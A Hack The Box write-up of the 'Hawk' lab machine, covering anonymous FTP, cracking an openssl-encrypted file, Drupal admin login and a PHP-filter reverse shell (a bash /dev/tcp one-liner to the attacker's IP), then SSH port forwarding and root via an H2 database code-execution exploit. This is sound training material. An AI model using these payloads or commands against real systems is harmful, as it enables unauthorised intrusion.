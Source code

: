 ```yaml
---
layout: post
title: "Hack The Box: Hawk Walkthrough"
excerpt: "Hawk is a retired Linux machine of medium difficulty on Hack The Box"
---
```

# Metadata
## TCP 8082 H2 Database HTTP Console
Port `8082` is running `H2 Database HTTP Console` but is not configured to accept non-local connections. Maybe be a PrivEsc Vector later.![Metadata1]({{ '/' | relative_url }}public/screenshots/Hawk/Metadata1.png){:style="display:block; margin-left:auto; margin-right:auto"}

## TCP 21 FTP
Port `21` is running `vsftpd 3.0.3` which also allows anonymous login identified by `nmap`. ![Metadata2]({{ '/' | relative_url }}public/screenshots/Hawk/Metadata2.png){:style="display:block; margin-left:auto; margin-right:auto"}
- Run `wget -m --no-passive-ftp ftp://anonymous:@10.10.10.102` to retrieve all files readable by the `anonymous` user for further analysis. 
- There is a file named `.drupal.txt.enc`. Judging by the extension `.enc`, the file is likely protected by some form of symmetric encryption. The file content is base64-encoded. However, after running `cat .drupal.txt.enc | base64 -d > drupal.txt`, the file is indeed encrypted hinted by the `Salted__` keyword.![Metadata3]({{ '/' | relative_url }}public/screenshots/Hawk/Metadata3.png){:style="display:block; margin-left:auto; margin-right:auto"}
	- According to my trusty friend `ChatGPT`, `Salted__` keyword is a characteristic of `openssl` encrypted file with cipher `AES-256-CBC`. There is also a [handy python script](https://github.com/HrushikeshK/openssl-bruteforce) for brute-forcing `openssl` encrypted file given a list of ciphers and passwords.
	- Retrieve the script, run `echo AES-256-CBC > candidate.txt;python2 brute.py /usr/share/wordlists/rockyou.txt candidate.txt ~/Desktop/10.10.10.102/messages/drupal.txt 2>/dev/null` to find out the secret key as `friends` along with the plaintext. From the plaintext, one can identify a  password `PencilKeyboardScanner123`.![Metadata4]({{ '/' | relative_url }}public/screenshots/Hawk/Metadata4.png){:style="display:block; margin-left:auto; margin-right:auto"}

## TCP 80 Drupal CMS
Port `80` is running `Drupal CMS` which requires a pair of valid credential to perform further exploitation.
- With the information we gained from the `FTP` server. There is one possible pair of credential being `Daniel:PencilKeyboardScanner123` and preferably the user is an administrator but it is not the case here. However, it is always worth trying out some common administrator usernames such as `admin`, `administrator`, `root`, etc. Fortunately, `admin:PencilKeyboardScanner123` is a valid pair.![Metadata5]({{ '/' | relative_url }}public/screenshots/Hawk/Metadata5.png){:style="display:block; margin-left:auto; margin-right:auto"}

## Enumeration as www-data
- Try running `su daniel` with `PencilKeyboardScanner123` did not work.
- Login credential for the MySQL database can be found in `settings.php` at `/var/www/html/sites/default`.![Metadata6]({{ '/' | relative_url }}public/screenshots/Hawk/Metadata6.png){:style="display:block; margin-left:auto; margin-right:auto"}
	- Check if the password `drupal4hawk` is reused on the user `daniel` with `su daniel`. The output is quite bizarre. Instead of a normal shell, one gets a python shell. However running `import os;os.system("id")` can identify that one is running under the user context of `daniel`.![Metadata7]({{ '/' | relative_url }}public/screenshots/Hawk/Metadata7.png){:style="display:block; margin-left:auto; margin-right:auto"}

## Enumeration as daniel
- Running `ps aux` can identify that previous inaccessible `H2 Database` is running under the privilege of the user `root` which make it the prime target for the final PrivEsc.![Metadata8]({{ '/' | relative_url }}public/screenshots/Hawk/Metadata8.png){:style="display:block; margin-left:auto; margin-right:auto"}
	- However, in order to reach port `8082`, we need to perform port forwarding. Since we already got access to `daniel`'s password, we can simply, on attacking machine, run `ssh -v -N -L 8082:127.0.0.1:8082 daniel@10.10.10.102` with password `drupal4hawk` to perform port forward to access `H2 Database HTTP Console` at `http://127.0.0.1:8082`.

### Explore H2 Database Web Console
- Since we already got valid credential `drupal:drupal4hawk` for connecting to the `drupal` MySQL database, we can try it out here. After login, one  can identify the version number as `1.4.196`![Metadata9]({{ '/' | relative_url }}public/screenshots/Hawk/Metadata9.png){:style="display:block; margin-left:auto; margin-right:auto"}![Metadata10]({{ '/' | relative_url }}public/screenshots/Hawk/Metadata10.png){:style="display:block; margin-left:auto; margin-right:auto"}
- There are multiple `RCE` related to `H2 Database` but there is only one with matching version number.![Metadata11]({{ '/' | relative_url }}public/screenshots/Hawk/Metadata11.png){:style="display:block; margin-left:auto; margin-right:auto"}Upon further analysis, the exploit builds on top of the `'Alias' Arbitrary Code Execution` with an authentication bypass to create a database. Hence, we can actually opt for both potentially.

# Exploitation
## Shell as www-data
- Login as `admin` with password `PencilKeyboardScanner123`,  we can leverage [PHP filter module](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#with-php-filter-module) to achieve remote code execution.
	- First, we need to go the modules section and enable PHP filter.![Exploitation1]({{ '/' | relative_url }}public/screenshots/Hawk/Exploitation1.png){:style="display:block; margin-left:auto; margin-right:auto"}
	- Now follow a sequence of actions to catch a reverse shell. 
		- On dashboard, hit `Add content`.
		- Select `Basic Page` or `Article`.
		- Write php shellcode on the body which, in my case, I used `<?php system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.92/443 0>&1'"); ?>`.
		- Select `PHP code` in Text format.
		- Before hitting save, make sure to spin up a listener to catch the incoming reverse shell.![Exploitation2]({{ '/' | relative_url }}public/screenshots/Hawk/Exploitation2.png){:style="display:block; margin-left:auto; margin-right:auto"}![Exploitation3]({{ '/' | relative_url }}public/screenshots/Hawk/Exploitation3.png){:style="display:block; margin-left:auto; margin-right:auto"}

## Shell as daniel
- Within the shell of `www-data`, run `su daniel` with the password `drupal4hawk`. With the python shell, run `import os;os.system("/bin/bash")` to get a working shell session.![Exploitation4]({{ '/' | relative_url }}public/screenshots/Hawk/Exploitation4.png){:style="display:block; margin-left:auto; margin-right:auto"}

# PrivEsc
- I'm going to use [H2 Database - 'Alias' Arbitrary Code Execution](https://www.exploit-db.com/exploits/44422)  since it is a verified exploit and I already had credentials. Run `searchsploit -m 44422` to retrieve the exploit.
- Run `python3 44422.py -H 127.0.0.1:8082 -d jdbc:h2:~/drupal -u drupal -p drupal4hawk` to get a semi-interactive web shell. Upgrading would be intuitive so I am going skip it.![PrivEsc1]({{ '/' | relative_url }}public/screenshots/Hawk/PrivEsc1.png){:style="display:block; margin-left:auto; margin-right:auto"}

# Beyond Root
- The weird shell that `daniel` gets is because the path to default shell is changed to `/usr/bin/python3` as shown in `/etc/passwd`.![Beyond-Root1]({{ '/' | relative_url }}public/screenshots/Hawk/Beyond-Root1.png){:style="display:block; margin-left:auto; margin-right:auto"}